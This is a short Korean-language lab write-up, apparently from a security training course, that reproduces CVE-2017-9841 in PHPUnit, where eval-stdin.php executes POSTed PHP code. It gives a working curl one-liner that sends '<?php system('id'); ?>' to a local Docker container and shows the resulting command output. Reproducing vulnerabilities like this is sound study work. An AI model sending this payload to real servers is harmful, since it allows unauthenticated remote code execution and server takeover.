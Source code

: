 # PHPUnit/CVE-2017-9841

> 화이트햇 스쿨 3기 - 김수연 (ksuyeon0124@gmail.com)
> 
&nbsp;
### CVE 요약

- PHPUnit에 있는 `eval-stdin.php` 파일이 사용자 입력을 그대로 `eval()`로 실행한다.
- 공격자가 POST 요청으로 악성 PHP 코드를 보내 서버에서 실행 가능하다.
- 인증 없이 **원격 코드 실행(RCE)**이 가능해서 서버의 완전 장악이 가능하다.  

&nbsp;   
### 환경 구성

- 아래 커멘드를 입력하여 컨테이너를 올렸다.
    - `docker compose up -d`  

&nbsp;
### 취약점 실행

- 아래 명령어를 입력해서 이 시스템의 id를 출력해보려고 한다. 이 PHP 코드는 서버에서 **`id` 명령어**를 실행하는 명령어이다.

```bash
curl -X POST http://127.0.0.1:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php -d "<?php system('id'); ?>"
```

- 아래와 같이 정보가 출력되는 것을 확인할 수 있다.

![result](https://github.com/user-attachments/assets/912fee33-a20d-4fdd-aded-b316897f61c9)  

&nbsp;       
### 정리

- 원래는 서버에서 사용자 입력의 실행이 금지되어야 하는데, `eval-stdin.php` 로 인해 실행이 된다. 하여 서버로 `system`의 `id`를 출력하는 명령어를 보냈는데, 그 정보를 그대로 출력하는 것을 확인할 수 있었다.

